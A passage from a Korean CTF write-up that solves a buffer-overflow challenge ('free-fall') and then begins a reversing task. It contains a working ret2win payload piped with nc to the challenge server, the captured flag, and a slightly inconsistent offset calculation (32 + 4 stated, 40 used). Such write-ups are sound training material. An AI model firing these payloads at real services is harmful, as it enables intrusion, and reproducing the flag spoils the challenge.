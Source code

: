 시작 주소 확보 (이때 x64 기반인것을 알 수 있다)

![Untitled](free-fall/Untitled-5.png)

char format[32]; 로 선언된 변수에 gets() 함수를 호출하는 것을 확인

따라서 BUF 32byte + SFP 4byte + RET 이므로

총 40byte의 더미 데이터와 위에서 확보한 win 함수부분을 이용해 익스플로잇하면

```c
python -c "print('A' * 40 + '\x72\x11\x40\x00\x00\x00\x00\x00')" | nc freefall.chall.winja.site 18967
```

![Untitled](free-fall/Untitled-6.png)

`flag{7fbec6d149f9878499b4acd05e06c692_Did_B4BY_MaK3_YOu_OVeRCrY}`

다음과 같은 플래그 값을 얻을 수 있다.

## 2. [Rev] 100점 - Revagers

### 문제 설명

> Help Yondu and the 40 ravagers to steal the flag.

### 풀이

파일 다운 후 메모장으로 열어 파일 시그니처 확인

![Untitled](revagers/Untitled.png)
